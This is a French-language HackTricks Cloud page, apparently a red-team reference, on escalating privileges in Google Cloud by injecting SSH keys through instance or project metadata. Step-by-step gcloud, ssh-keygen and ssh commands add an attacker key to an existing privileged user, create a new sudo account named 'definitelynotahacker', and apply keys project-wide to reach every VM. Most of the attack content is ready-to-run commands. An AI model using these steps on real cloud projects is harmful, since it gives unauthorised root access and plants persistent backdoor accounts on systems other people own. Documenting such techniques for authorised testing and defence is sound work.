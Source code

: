 # GCP - Ajouter des métadonnées SSH personnalisées

<details>

<summary><strong>Apprenez le piratage AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Expert en équipe rouge AWS de HackTricks)</strong></a><strong>!</strong></summary>

Autres façons de soutenir HackTricks :

- Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
- Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
- Découvrez [**La famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection exclusive de [**NFT**](https://opensea.io/collection/the-peass-family)
- **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez-nous** sur **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
- **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts GitHub.

</details>

## Modification des métadonnées <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

La modification des métadonnées sur une instance pourrait entraîner **des risques de sécurité importants si un attaquant obtient les autorisations nécessaires**.

### **Incorporation de clés SSH dans les métadonnées personnalisées**

Sur GCP, les **systèmes Linux** exécutent souvent des scripts à partir de l'[Environnement invité Linux Python pour Google Compute Engine](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts). Un composant critique de cela est le [démon des comptes](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts), qui est conçu pour **vérifier régulièrement** le point de terminaison des métadonnées de l'instance pour les **mises à jour des clés publiques SSH autorisées**.

Par conséquent, si un attaquant peut modifier les métadonnées personnalisées, il pourrait faire en sorte que le démon trouve une nouvelle clé publique, qui sera traitée et **intégrée dans le système local**. La clé sera ajoutée dans le fichier `~/.ssh/authorized_keys` d'un **utilisateur existant ou potentiellement créer un nouvel utilisateur avec des privilèges `sudo`**, en fonction du format de la clé. Et l'attaquant pourra compromettre l'hôte.

### **Ajouter une clé SSH à un utilisateur privilégié existant**

1. **Examiner les clés SSH existantes sur l'instance :**
- Exécutez la commande pour décrire l'instance et ses métadonnées afin de localiser les clés SSH existantes. La section pertinente dans la sortie se trouvera sous `metadata`, en particulier la clé `ssh-keys`.
```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```
- Faites attention au format des clés SSH : le nom d'utilisateur précède la clé, séparé par un deux-points.

2. **Préparer un fichier texte pour les métadonnées de clé SSH :**
- Enregistrez les détails des noms d'utilisateur et de leurs clés SSH correspondantes dans un fichier texte nommé `meta.txt`. Cela est essentiel pour conserver les clés existantes tout en ajoutant de nouvelles.

3. **Générer une nouvelle clé SSH pour l'utilisateur cible (`alice` dans cet exemple) :**
- Utilisez la commande `ssh-keygen` pour générer une nouvelle clé SSH, en veillant à ce que le champ de commentaire (`-C`) corresponde au nom d'utilisateur cible.
```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```
- Ajoutez la nouvelle clé publique à `meta.txt`, en imitant le format trouvé dans les métadonnées de l'instance.

4. **Mettre à jour les métadonnées de clé SSH de l'instance :**
- Appliquez les métadonnées de clé SSH mises à jour à l'instance en utilisant la commande `gcloud compute instances add-metadata`.
```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```

5. **Accéder à l'instance en utilisant la nouvelle clé SSH :**
- Connectez-vous à l'instance avec SSH en utilisant la nouvelle clé, accédant à l'interpréteur de commandes dans le contexte de l'utilisateur cible (`alice` dans cet exemple).
```bash
ssh -i ./key alice@localhost
sudo id
```

### **Créer un nouvel utilisateur privilégié et ajouter une clé SSH**

Si aucun utilisateur intéressant n'est trouvé, il est possible d'en créer un nouveau auquel seront accordés des privilèges `sudo` :
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
### Clés SSH au niveau du projet <a href="#sshing-around" id="sshing-around"></a>

Il est possible d'élargir la portée de l'accès SSH à plusieurs Machines Virtuelles (VMs) dans un environnement cloud en **appliquant des clés SSH au niveau du projet**. Cette approche permet l'accès SSH à n'importe quelle instance dans le projet qui n'a pas explicitement bloqué les clés SSH au niveau du projet. Voici un guide résumé :

1. **Appliquer des Clés SSH au Niveau du Projet :**
- Utilisez la commande `gcloud compute project-info add-metadata` pour ajouter des clés SSH depuis `meta.txt` aux métadonnées du projet. Cette action garantit que les clés SSH sont reconnues sur toutes les VMs du projet, sauf si une VM a activé l'option "Bloquer les clés SSH au niveau du projet".
```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```

2. **Accéder aux Instances en Utilisant les Clés au Niveau du Projet :**
- Avec les clés SSH au niveau du projet en place, vous pouvez accéder en SSH à n'importe quelle instance dans le projet. Les instances qui ne bloquent pas les clés au niveau du projet accepteront la clé SSH, accordant l'accès.
- Une méthode directe pour accéder en SSH à une instance est d'utiliser la commande `gcloud compute ssh [INSTANCE]`. Cette commande utilise votre nom d'utilisateur actuel et les clés SSH définies au niveau du projet pour tenter l'accès.


# Références
* [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)

<details>

<summary><strong>Apprenez le piratage AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Autres façons de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**The PEASS Family**](https://opensea.io/collection/the-peass-family), notre collection exclusive de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez** nous sur **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
